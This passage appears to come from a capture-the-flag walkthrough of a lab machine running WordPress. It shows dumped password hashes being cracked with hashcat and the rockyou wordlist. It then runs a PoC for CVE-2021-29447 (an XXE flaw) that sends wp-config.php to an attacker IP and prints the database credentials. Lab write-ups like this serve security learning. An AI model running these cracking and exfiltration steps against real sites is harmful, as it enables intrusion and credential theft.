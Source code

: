 Looks like we managed to get some information about the users inside the database

| Username |         Email         |             Password Hash             |
| :------: | :-------------------: | :-----------------------------------: |
|  admin   |  admin@metapress.htb  | \$P\$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.  |
| manager  | manager@metapress.htb | \$P\$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70 |

At this point it's worth trying some dictionary attack on the password hashes to see if we can manage to get the clear text passwords. I'm using *hashcat* with the famous [rockyou](https://www.kaggle.com/datasets/wjburns/common-password-list-rockyoutxt) wordlist which is built in kali linux.

```console
$ hashcat hash_to_crash.txt /usr/share/wordlists/rockyou.txt
...
```

After a while, depending on your computer power, you will discover that the *manager* user password is *partylikearockstar* while the admin password is not contained in the word list file that I used and maybe it's a strong password. 
At this point we can jump in the administration panel to see what we can do as *manager*. The generic wordpress login page is at */wp-login.php* and this website is no exception. After logging in as *manager* you will realize that this user cannot do much except for uploading media files, and files like *php* files get rejected. At this point, knowing from the previous enumeration that the wordpress version is 5.6.2 I started googling for some possible vulnerabilities. The exploitable vulnerability is [CVE-2021-29447](https://nvd.nist.gov/vuln/detail/CVE-2021-29447) which has been patched in version 5.7.1. This vulnerability allows an authenticated user that can upload media files to steal files from the server abusing an XML parsing issue in the media library. I used this [PoC](https://packetstormsecurity.com/files/164198/WordPress-5.7-Media-Library-XML-Injection.html) script to exploit the vulnerability. 

```console
$ ./exploit.sh metapress.htb manager partylikearockstar ./../wp-config.php 10.10.14.14

=====================================
CVE-2021-29447 - WordPress 5.6-5.7 - XXE & SSRF Within the Media Library (Authenticated)
-------------------------------------
@David_Uton (M3n0sD0n4ld)
https://m3n0sd0n4ld.github.io/
=====================================
[*] Test connection to WordPress...
[+] Authentication successfull!!!
[+] Create payload.wav
[+] Getting Wp Nonce ... 
[+] Wp Nonce retrieved successfully ! _wpnonce : 93ccc9bd81
[+] Uploading the wav file ... 
[-] Failed to receive a response for uploaded! Try again . 

[+] Obtaining file information...
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
```